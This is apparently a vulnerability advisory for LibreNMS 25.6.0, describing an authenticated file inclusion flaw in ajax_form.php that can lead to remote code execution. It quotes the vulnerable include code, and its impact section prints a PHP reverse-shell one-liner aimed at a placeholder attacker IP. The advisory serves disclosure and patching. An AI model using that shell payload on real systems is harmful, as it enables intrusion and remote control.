 # Authenticated Remote File Inclusion in `ajax_form.php` Allows RCE

#### CVE ID: Pending

#### Date: 2025-07-16

#### Author: Seth Kraft

#### Vendor Homepage: https://www.librenms.org/

#### Vendor Changelog: https://github.com/librenms/librenms/releases

#### Affected Version: 25.6.0

#### Fixed Version: 25.7.0 via [PR-17990](https://github.com/librenms/librenms/pull/17990)

#### CWE ID: [`CWE-98`](https://cwe.mitre.org/data/definitions/98.html) (Improper Control of Filename for Include/Require Statement in PHP Program)

#### Estimated CVSS Base Score: 7.5 (High)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`

#### Type: Authenticated Local File Inclusion

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

LibreNMS 25.6.0 contains an architectural vulnerability in the `ajax_form.php` endpoint that permits Local File Inclusion (LFI) based on user-controlled POST input. 

The application directly uses the `type` parameter to dynamically include `.inc.php` files from the trusted path `includes/html/forms/`, without validation or allowlisting:

```php
if (file_exists('includes/html/forms/' . $_POST['type'] . '.inc.php')) {
    include_once 'includes/html/forms/' . $_POST['type'] . '.inc.php';
}
```
This pattern introduces a latent Remote Code Execution (RCE) vector if an attacker can stage a file in this include path — for example, via symlink, development misconfiguration, or chained vulnerabilities.

>  This is not an arbitrary file upload bug. But it does provide a powerful execution sink for attackers with write access (direct or indirect) to the include directory.

---

## Conditions for Exploitation

- Attacker must be authenticated    
- Attacker must control a file at `includes/html/forms/{type}.inc.php` (or symlink)        

## Example Impact (RCE)

If a PHP file or symlinked shell is staged in the include path, an attacker can achieve full remote code execution under the `librenms` user context:

```php
<?php system('/bin/bash -c "bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1"'); ?>
```

![Screen Recording 2025-06-25 212722](https://github.com/user-attachments/assets/9638d4b4-bfd6-4ace-8af1-8990c6736bc8)

---

## Solution

Upgrade to Version 25.7.0

## Disclaimer
This work was conducted outside of my employment and reflects my personal efforts in cybersecurity research.

---
